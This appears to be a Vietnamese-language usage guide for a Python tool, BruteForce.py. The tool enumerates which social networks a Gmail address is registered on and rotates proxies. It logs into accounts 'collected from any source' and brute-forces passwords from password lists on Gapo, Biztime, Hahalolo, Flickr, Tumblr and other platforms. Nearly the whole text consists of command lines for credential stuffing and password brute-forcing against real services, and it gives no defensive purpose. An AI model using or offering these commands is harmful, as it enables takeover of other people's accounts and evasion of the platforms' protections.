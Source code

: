 Thực hiện dùng finder để tìm kiếm các mạng xã hội mà gmail đãng ký
python BruteForce.py -% [gmail]

===========================================================

Thực hiện nhận proxy

Nhận proxy cho tất cả các mạng xã hội bên trong công cụ

python BruteForce.py -> [proxy_list]

Nhận proxy cho mạng xã hội cụ thể

python BruteForce.py -> [proxy_list] -~ gapo

Nhận proxy cho nhiều mạng xã hội ngăn nhau bởi dấu ','

python BruteForce.py -> [proxy_list] -~ gapo,biztime


===========================================================

Thực hiện đăng nhập tài khoản thu thập được từ bất kỳ nguồn nào. Với tài khoản gmail và password

python BruteForce.py -! [Tên đăng nhập có dạng gmail] -$ [Mật khẩu] -< [proxy_list]

===========================================================

BruteForce trên từng mạng xã hội

BruteForce Gapo

python BruteForce.py -G [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Biztime

python BruteForce.py -b [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Hahalolo

python BruteForce.py -H [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Flickr

python BruteForce.py -F [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Tumblr

python BruteForce.py -T [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Zoimas

python BruteForce.py -Z [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Befilo

python BruteForce.py -B [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Desentric

python BruteForce.py -D [Tên đăng nhập] -# [password_list] -< [proxy_list]

===========================================================

Ngoài ra có thể kiểm tra đang nhập cụ thể bằng cách lệnh

Ví dụ cho Gapo

python BruteForce.py -G [Tên đăng nhập] -$ [password] -< [proxy_list]
